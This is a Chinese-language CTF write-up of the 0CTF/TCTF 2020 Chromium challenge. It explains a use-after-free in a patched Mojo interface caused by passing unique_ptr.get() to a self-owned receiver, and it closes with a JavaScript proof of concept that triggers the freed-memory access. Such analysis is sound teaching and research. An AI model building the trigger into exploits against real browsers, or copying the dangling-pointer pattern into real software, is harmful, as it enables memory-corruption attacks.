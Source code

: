 ```diff
+
+} // namespace content
```

可以看到也有个成员变量是`inner_db_ptr_`。其余的成员函数则是调用`InnerDbImpl`类中对应的函数。

### 漏洞分析

根据出题人的[wp](https://dmxcsnsbh.github.io/2020/07/20/0CTF-TCTF-2020-Chromium-series-challenge/)，这题有两个漏洞，一个是预期的漏洞，一个是非预期漏洞，这里两个漏洞都讲一讲。

漏洞的主要成因是在构建`TInstance`实例的时候，参数对象使用的是`inner_db_.get()`来进行获取，

```diff
+void TStorageImpl::CreateInstance(CreateInstanceCallback callback) {
+    mojo::PendingRemote instance;
+    mojo::MakeSelfOwnedReceiver(std::make_unique(inner_db_.get()),
+                                instance.InitWithNewPipeAndPassReceiver());
+
+    std::move(callback).Run(std::move(instance));
+}
```

`unique_ptr`如果调用`get`函数获取指针的话，则`get`的返回值就不再是智能指针，`unique_ptr`被释放后，`get`返回的值就很容易形成`uaf`。如`p = bar.get()`，`bar`是一个智能指针，`p`是一个普通指针。`p = bar.get()`，`bar`并非被释放，也就相当于指针`p`和智能指针`bar`共同管理一个对象，所以就`*p`做的一切，都会反应到`bar`指向的对象上。而且如果`bar`被释放而`p`没被释放的话，就会出现`UAF`漏洞。

漏洞一是在创建`TInstance`实例的时候，调用`inner_db_.get()`作为参数，同时调用`mojo::MakeSelfOwnedReceiver`将`TInstanceImpl`生命周期与`mojo`所绑定，此时如果我们释放`TStorageImpl`对象，它的成员变量`inner_db_`会被释放。然后因为`Mojo`没有关闭，此时`TInstance`仍然有效，`inner_db_.get()`获取的指针仍然可以使用，然而`inner_db_`已经被释放了，我们可以通过`TInstance`来操作已经被释放的内存，形成`uaf`漏洞。

最终形成的`poc`如下：

```js
async function poc()
{

    let tStoragePtr = new blink.mojom.TStoragePtr();
    Mojo.bindInterface(
        blink.mojom.TStorage.name,
        mojo.makeRequest(tStoragePtr).handle,
    );

    // malloc innerdb
    tStoragePtr.init();
    // get TInstance ptr
    let tInstancePtr = (await tStoragePtr.createInstance()).instance;

    // free the innerdb ptr by free tStoragePtr
    tStoragePtr.ptr.reset();

    // still call freed innerdb by tInstangcePTr.
    await tInstancePtr.getTotalSize();
}

```
